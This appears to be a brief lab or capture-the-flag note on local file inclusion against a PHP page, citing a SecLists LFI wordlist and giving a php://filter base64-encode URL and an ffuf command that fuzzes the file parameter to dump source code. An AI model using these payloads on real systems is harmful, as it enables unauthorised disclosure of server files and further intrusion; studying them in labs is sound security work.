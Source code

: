 
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

```
http://83.136.253.171:44707/index.php?page=php://filter/read=convert.base64-encode/resource=industries
```

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://83.136.253.171:44707/index.php?page=php://filter/read=convert.base64-encode/resource=FUZZ
```